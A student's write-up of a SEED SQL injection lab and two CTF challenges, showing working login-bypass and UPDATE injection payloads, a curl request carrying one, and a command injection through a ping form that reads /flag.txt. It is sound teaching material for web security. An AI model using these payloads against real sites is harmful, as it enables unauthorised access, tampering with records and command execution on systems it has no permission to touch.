



# Work developed in week 8

## **Lab Tasks**

### Task 1

After having the containers up and running, we simply needed to open a shell inside the MySQL container, access the database and query it.

to access the container, we can run `docker exec -it mysql-10.9.0.6 bash` and after this, we run the following commands:

```bash
mysql -u root -pdees
mysql> use sqllab_users;
mysql> show tables;
```

Now we have access to the database and can run queries in it. From what is asked:

> After running the commands above, you need to use a SQL command to print all the profile information of the employee Alice.
> 

The query we need to run is `SELECT * FROM credential WHERE Name="Alice";` and we get the following results:



### Task 2.1

For this task we are given a login page with 2 input fields: `username` and `password`, and are tasked with login in as the admin of the system, without knowing the password. The PHP code of the database request is also given, so that we can analyse it and find a vulnerability.

```php
$input_uname = $_GET[’username’];
$input_pwd = $_GET[’Password’];
$hashed_pwd = sha1($input_pwd);
...
$sql = "SELECT id, name, eid, salary, birth, ssn, address, email,
nickname, Password
FROM credential
WHERE name= ’$input_uname’ and Password=’$hashed_pwd’";
$result = $conn -> query($sql);
```

The logic behind the login is also given, again, to find a vulnerability:

```c
// The following is Pseudo Code
if(id != NULL) {
	if(name==’admin’) {
		return All employees information;
	} else if (name !=NULL){
		return employee information;
	}
} else {
	Authentication Fails;
}
```

From the two code excerpts above we can find 2 vulnerabilities:

1. There is no kind of cleaning made to the input of the form fields.
2. During the validation, only the username is used, not the password.

Seeing as there is no validation of the input, we can insert anything!

To login as an admin, we can input the following in the `username` field: "admin' -- " without the quotes, and anything into the password. 

By doing this, we are sending the username as `admin` but commenting the `password` part using `-- '` (after the SQL comment there must be a space). this string will be replaced in the original query, so the query becomes:

```sql
SELECT id, name, eid, salary, birth, ssn, address, email,
nickname, Password
FROM credential
WHERE name= 'admin' -- ' and Password='$hashed_pwd'
```

And we can access the admin profile.

### Task 2.2

For this task, we need to do the same as in Task 2.1, but without using a webpage. So the solution is to use `curl` and do a request to the login webpage, passing as parameters the contents of the form fields. 

A possible problem would be that we would need to surround the URL with single quotes, making it necessary to encode the single codes inside the URL. But since curl interprets the first argument as the URL without codes, we didn't face this problem, and the task was easy to conclude. By running the following command:

```bash
curl [http://localhost/unsafe_home.php?username=admin'+--+'&Password=](http://localhost/unsafe_home.php?username=admin%27+--+%27&Password=)
```

We got the expected result, the HTML page with the admin information:

```html
<!--
SEED Lab: SQL Injection Education Web plateform
Author: Kailiang Ying
Email: kying@syr.edu
-->

<!--
SEED Lab: SQL Injection Education Web plateform
Enhancement Version 1
Date: 12th April 2018
Developer: Kuber Kohli

Update: Implemented the new bootsrap design. Implemented a new Navbar at the top with two menu options for Home and edit profile, with a button to
logout. The profile details fetched will be displayed using the table class of bootstrap with a dark table head theme.

NOTE: please note that the navbar items should appear only for users and the page with error login message should not have any of these items at
all. Therefore the navbar tag starts before the php tag but it end within the php script adding items as required.
-->

<!DOCTYPE html>
<html lang="en">
<head>
  <!-- Required meta tags -->
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">

  <!-- Bootstrap CSS -->
  <link rel="stylesheet" href="css/bootstrap.min.css">
  <link href="css/style_home.css" type="text/css" rel="stylesheet">

  <!-- Browser Tab title -->
  <title>SQLi Lab</title>
</head>
<body>
  <nav class="navbar fixed-top navbar-expand-lg navbar-light" style="background-color: #3EA055;">
    <div class="collapse navbar-collapse" id="navbarTogglerDemo01">
      <a class="navbar-brand" href="unsafe_home.php" ></a>

      <ul class='navbar-nav mr-auto mt-2 mt-lg-0' style='padding-left: 30px;'><li class='nav-item active'><a class='nav-link' href='unsafe_home.php'>Home <span class='sr-only'>(current)</span></a></li><li class='nav-item'><a class='nav-link' href='unsafe_edit_frontend.php'>Edit Profile</a></li></ul><button onclick='logout()' type='button' id='logoffBtn' class='nav-link my-2 my-lg-0'>Logout</button></div></nav><div class='container'><br><h1 class='text-center'><b> User Details </b></h1><hr><br><table class='table table-striped table-bordered'><thead class='thead-dark'><tr><th scope='col'>Username</th><th scope='col'>EId</th><th scope='col'>Salary</th><th scope='col'>Birthday</th><th scope='col'>SSN</th><th scope='col'>Nickname</th><th scope='col'>Email</th><th scope='col'>Address</th><th scope='col'>Ph. Number</th></tr></thead><tbody><tr><th scope='row'> Alice</th><td>10000</td><td>20000</td><td>9/20</td><td>10211002</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Boby</th><td>20000</td><td>30000</td><td>4/20</td><td>10213352</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Ryan</th><td>30000</td><td>50000</td><td>4/10</td><td>98993524</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Samy</th><td>40000</td><td>90000</td><td>1/11</td><td>32193525</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Ted</th><td>50000</td><td>110000</td><td>11/3</td><td>32111111</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Admin</th><td>99999</td><td>400000</td><td>3/5</td><td>43254314</td><td></td><td></td><td></td><td></td></tr></tbody></table>      <br><br>
      <div class="text-center">
        <p>
          Copyright &copy; SEED LABs
        </p>
      </div>
    </div>
    <script type="text/javascript">
    function logout(){
      location.href = "logoff.php";
    }
    </script>
  </body>
  </html>
```

### Task 2.3

For this task, we need to try to run two SQL statements by exploiting the vulnerabilities in the previous tasks. we can try to login as admin and add another user in the same input by trying the following:

```php
admin'; INSERT INTO `credential` VALUES  (7,'Dani','60000',20000,'9/20','10211002','a','a','a','a','7110eda4d09e062aa5e4a390b0a572ac0d2c0220') -- 
// password is 1234 in SHA1
```

But unfortunately, this returns a SQL statement error.

After inspecting the source code for the webpage, we can retrieve the part that queries the database:

```php
// create a connection
$conn = getDB();
// Sql query to authenticate the user
$sql = "SELECT id, name, eid, salary, birth, ssn, phoneNumber, address, email,nickname,Password
FROM credential
WHERE name= '$input_uname' and Password='$hashed_pwd'";
if (!$result = $conn->query($sql)) {
  echo "</div>";
  echo "</nav>";
  echo "<div class='container text-center'>";
  die('There was an error running the query [' . $conn->error . ']\n');
  echo "</div>";
}
```

And here we check that to query the database, the author used `query()`. After checking the PHP documentation, it is not possible to run multiple queries in a `query()` statement. To run multiple queries we would need to replace it with a `multi_query()` function call.

Source: [https://www.php.net/manual/en/mysqli.quickstart.multiple-statement.php](https://www.php.net/manual/en/mysqli.quickstart.multiple-statement.php)

### Task 3.1

In the task 3 is asked to do an SQL Injection Attack on an UPDATE statement. This attack aims to change the data in the database. More specifically, a user through the edit profile page changes his own salary. To exploit this vulnerability, we start by taking a look at the given PHP code implemented in the given unsafe_edit_backend.php file:

```php
$hashed_pwd = sha1($input_pwd);
$sql = "UPDATE credential SET
nickname=’$input_nickname’,
email=’$input_email’,
address=’$input_address’,
Password=’$hashed_pwd’,
PhoneNumber=’$input_phonenumber’
WHERE ID=$id;";
$conn->query($sql);
```

As in task 2, we verified that there is no cleaning done on the input of the form fields.

In order to exploit this vulnerability, we started by forcing into Alice's account through the vulnerability found in task 2.1, but instead of forcing into the admin account, we force into Alice's account with "alice' -- " input in the login page.

Next, on Alice's edit profile page, we insert in the address field the input "galho', salary=1 where name='Alice'; --", which changes the value of the address field and also adds the possibility of changing the value of the salary field to 1. It was also necessary to indicate the user who wanted to change his own salary, since that part on the SQL code would also be commented, by indicating in the column `name` the name of the target user.

As the final result, the inserted input will be replaced in the query as followed: 

```sql
UPDATE credential SET nickname='$input_nickname',email='$input_email',address='galho', salary=1 -- ',Password='$hashed_pwd',PhoneNumber='$input_phonenumber' where ID=$id;
```

When saving the changes made, we have the following result:



## Task 3.2

In this task, the same is asked as in the previous task, but instead of a user changing the salary of his own account, the goal is to change the salary of another account, Bobby's account. To do that, we just need to replace the name in the column `name` from "Alice" to "Boby".

By inserting in the nickname form field the input "boby', salary=1 where name='Boby'; -- ", the following SQL code is executed:

```sql
UPDATE credential SET nickname='boby', salary=1 where name='Boby'; -- ',email='$input_email',address='$input_address',Password='$hashed_pwd',PhoneNumber='$input_phonenumber' where ID=$id
```

With the previous SQL code, we obtain the following result:



## **CTF write-up/resolution**

### Challenge 1

When entering the website we are presented with a login page. To unlock the vault we need to provide a valid username and password combination.

The goal for this CTF is to log in as an admin. To achieve that, we can use SQL Injection, since the user inputs are not verified, nor used as parameters for the query.

 Taking advantage of that attack:

```bash
username: admin' -- 
password: (any character)
```

By doing this, we are sending the *username* as admin but commenting the password part using *' --*  (after the SQL comment there must be a space). Even though the password will be commented in the backend, we must still provide at least a character because the frontend form requires it.

We can successfully login and obtain the flag.

```latex
You have been logged in as admin
flag{af1d4db7785ad5bc8c488b63a0ab797c}
```

### Challenge 2

In this challenge we are once again presented a login page, that also has a link at the bottom that redirects the user to another page to check his network status. As a logged out user we only have access to the ping functionality in this later page.

Login using a SQL Injection attack is not possible due to front-end verifications. We need to provide a valid email, so we can't take advantage of SQL comments as we did in the last challenge.

Exploring the "Check your network speed" page, we can enter a host address to ping it and see the results:

```bash
PING RESULTS
PING google.com (142.250.200.142) 56(84) bytes of data. 64 bytes from mad41s14-in-f14.1e100.net (142.250.200.142): icmp_seq=1 ttl=113 time=16.4 ms 64 bytes from mad41s14-in-f14.1e100.net (142.250.200.142): icmp_seq=2 ttl=113 time=14.7 ms --- google.com ping statistics --- 2 packets transmitted, 2 received, 0% packet loss, time 1000ms rtt min/avg/max/mdev = 14.717/15.549/16.382/0.841 ms rtt min/avg/max/mdev = 14.717/15.549/16.382/0.841 ms
```

Checking the output we can conclude that the server machine executes a Linux `ping` command, and we can take advantage of that. The semicolon (;) operator allows us to execute multiple commands in succession, regardless of whether each previous command succeeds or not, so we can chain several Linux commands, after providing (or not) a host. With `google.com ; ls` as input these are the results:

```bash
PING RESULTS
index.php network_report.html ping.php ping.php
```

We can see that we can successfully chain commands, and list the current directory. Now we just have to list the contents of */flag.txt* file to get the flag, and we can do that with `; cat /flag.txt`

```bash
PING RESULTS
flag{4365558d98bb2d2bdbecc4e01f8e7bf5}
flag{4365558d98bb2d2bdbecc4e01f8e7bf5}
```
